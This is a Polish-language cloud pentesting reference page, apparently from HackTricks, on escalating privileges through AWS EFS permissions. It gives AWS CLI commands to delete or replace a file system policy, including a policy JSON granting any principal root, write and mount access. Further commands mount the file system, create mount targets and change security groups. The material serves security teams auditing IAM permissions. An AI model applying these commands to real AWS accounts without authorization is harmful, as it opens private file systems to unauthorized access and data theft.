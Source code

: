 # AWS - EFS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## EFS

Więcej **informacji o EFS** w:

{{#ref}}
../aws-services/aws-efs-enum.md
{{#endref}}

Pamiętaj, że aby zamontować EFS, musisz znajdować się w podsieci, w której EFS jest udostępniony i mieć do niego dostęp (grupy zabezpieczeń). Jeśli to się dzieje, domyślnie zawsze będziesz mógł go zamontować, jednak jeśli jest chroniony przez polityki IAM, musisz mieć dodatkowe uprawnienia wymienione tutaj, aby uzyskać do niego dostęp.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Dzięki któremuś z tych uprawnień atakujący może **zmienić politykę systemu plików**, aby **dać ci dostęp** do niego, lub po prostu **usunąć ją**, aby **przyznać domyślny dostęp**.

Aby usunąć politykę:
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Aby to zmienić:
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Dzięki temu uprawnieniu atakujący będzie mógł **zamontować EFS**. Jeśli uprawnienie do zapisu nie jest domyślnie przyznawane wszystkim, którzy mogą zamontować EFS, będzie miał tylko **dostęp do odczytu**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Dodatkowe uprawnienia `elasticfilesystem:ClientRootAccess` i `elasticfilesystem:ClientWrite` mogą być używane do **zapisu** wewnątrz systemu plików po jego zamontowaniu oraz do **dostępu** do tego systemu plików **jako root**.

**Potencjalny wpływ:** Pośrednie podniesienie uprawnień poprzez zlokalizowanie wrażliwych informacji w systemie plików.

### `elasticfilesystem:CreateMountTarget`

Jeśli atakujący znajduje się w **podsieci**, w której **nie ma celu montowania** EFS, może po prostu **utworzyć jeden w swojej podsieci** z tym uprawnieniem:
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Potencjalny wpływ:** Pośrednie privesc poprzez zlokalizowanie wrażliwych informacji w systemie plików.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

W scenariuszu, w którym atakujący odkrywa, że EFS ma punkt montowania w jego podsieci, ale **żaden z grup zabezpieczeń nie zezwala na ruch**, mógłby po prostu **zmienić to, modyfikując wybrane grupy zabezpieczeń**:
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Potencjalny wpływ:** Pośrednie podniesienie uprawnień poprzez zlokalizowanie wrażliwych informacji w systemie plików.

{{#include ../../../banners/hacktricks-training.md}}
